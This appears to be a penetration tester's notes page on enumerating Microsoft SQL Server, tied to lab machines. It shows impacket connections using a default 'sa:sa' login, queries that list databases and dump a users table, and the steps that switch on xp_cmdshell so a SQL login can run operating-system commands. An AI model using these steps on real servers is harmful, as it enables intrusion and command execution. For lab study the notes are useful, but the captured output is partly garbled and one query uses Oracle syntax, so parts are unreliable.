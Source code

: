 ```yaml
---
description: >-
  Enumerate MSSQL service.
title: MSSQL (tcp-1433)                  # Add title here
date: 2023-01-22 08:00:00 -0600                           # Change the date to match completion date
categories: [01 Enumeration, MSSQL (tcp-1433)]                     # Change Templates to Writeup
tags: [mssql enumeration, mssql rce]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

#### Connection

```bash
impacket-mssqlclient sa@10.11.1.31 -p 1433 -db tempdb
```
#### MSSQL basic commands

```bash
# Show databases available
select name from sys.databases
# It also works for the same but as a store procedure
sp_databases
# Select the database for list its content
use streamio_backup
# List the name of the tables from a database
select * from information_schema.tables;
# List all the tables from a db
select table_name FROM dba_tables;
# List all from a table
select * from users;
```
Examples:
[[StreamIO#^2bc6f1]]
[[Scramble#^516462]]

#### Command execution from MSSQL
If we have access to the MSSQL we can try to execute commands from MSSQL:
```bash
SQL> xp_cmdshell "whoami"
[-] ERR0R(TALLY): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component ,xp_cmdshell’ because this component is turned off as part of the security figuration for this server. A system administrator can enable the use of ,xp_cmdshell' by using sp_configure. For more information about enabling 'xp.cmdshell', search for p_cmdshell' in SQL Server Books Online.
SQL> sp_configure "xp_cmdshell", 1
[-] ERR0R(TALLY): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
SQL> sp_configure "show advanced options", 1
[*] INF0(TALLY): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> sp_configure "xp_cmdshell", 1
[*] INF0(TALLY): Line 185: Configuration option 'xp.cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```
Examples:
[[Scramble#^ec565c]]
Connect to database joined to the domain controller:
```bash
impacket-mssqlclient scrm.local/sa:sa@10.10.11.168
```
Examples:
[[Scramble#^8adc8a]]
